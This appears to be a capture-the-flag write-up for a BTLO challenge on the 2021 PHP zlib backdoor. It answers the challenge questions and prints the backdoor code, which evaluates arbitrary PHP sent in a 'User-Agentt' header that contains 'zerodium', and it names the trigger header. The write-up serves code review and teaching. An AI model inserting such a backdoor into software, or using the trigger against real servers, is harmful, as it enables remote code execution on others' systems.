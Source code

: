```yaml
---
layout: post
title: Source
date: '2023-10-08 20:49:49 +0300'
cover: /img/cover_images/2.png
description: "A vulnerability was identified in a widely used product. Download the challenge attachment and review the code to identify it."
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Text Editor, C, Php]
---
```


## Source
A vulnerability was identified in a widely used product. Download the challenge attachment and review the code to identify it. 

## What is the technology affected? (5 points) 

```c
#include "php.h"
#include "SAPI.h"
#include "php_ini.h"
#include "ext/standard/info.h"
#include "ext/standard/php_string.h"
#include "php_zlib.h"
#include "zlib_arginfo.h"
#include "Zend/zend_interfaces.h"
```
## Based on the list of vulnerability categories in the challenge scenario, which one describes the identified vulnerability? (5 points) 
zend_eval_string() is called with our malicious payload contained in the Z_STRVAL_P() as an argument. This eval fucntion basically calls zend engine api which allows executing php code unrestrictedly.
```bash
if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL      ("_SERVER"))) && (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
Command Execution
## See the corresponding commit. How many lines of code were added when the vulnerability was introduced? (5 points) 
Seeing the php zlib commit history on github we stumbbled upon the this commit where the code changes were made
[link](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
## What HTTP head is required to exploit the vulnerability? (5 points) 
[link](https://news-web.php.net/php.internals/113838)
User-Agent